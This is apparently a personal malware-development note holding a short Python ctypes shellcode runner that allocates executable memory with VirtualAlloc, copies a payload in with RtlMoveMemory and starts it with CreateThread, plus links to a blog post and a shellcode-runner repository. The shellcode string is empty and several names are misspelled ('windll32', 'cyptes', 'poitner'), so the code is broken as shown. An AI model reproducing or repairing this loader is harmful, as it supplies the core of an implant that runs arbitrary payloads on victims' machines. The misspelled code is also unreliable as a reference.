 # Python

```python
import ctypes

kernel32 = ctypes.windll32.kernel32

shellcode = ""

pointer = kernel32.VirtualAlloc(cyptes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))

buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

kernel32.RtlMoveMemory(ctypes.c_int(pointer),
buffer,
ctypes.c_int(len(shellcode)))

handle_thread = kernel32.CreateThread(ctypes.c_int(0),
ctypes.c_int(0),
ctypes.c_int(pointer),
ctypes.c_int(0),
ctypes.c_int(0),
ctypes.poitner(ctypes.c_int(0)))

kernel32.WaitForSingleObject(ctypes.c_int(handle_thread),
ctypes.c_int(-1))
```

---
## References

### Backlinks

- [[03 - Malware Development/Techniques/Implant Execution/Shellcode Loader/Memory Allocation/Windows/WinAPI/Simple Loader/Virtual Allocation/C]]

https://momonguyen.com/2021/python-shellcode-runner/

https://github.com/momo1239/buffshark-shellcode-runner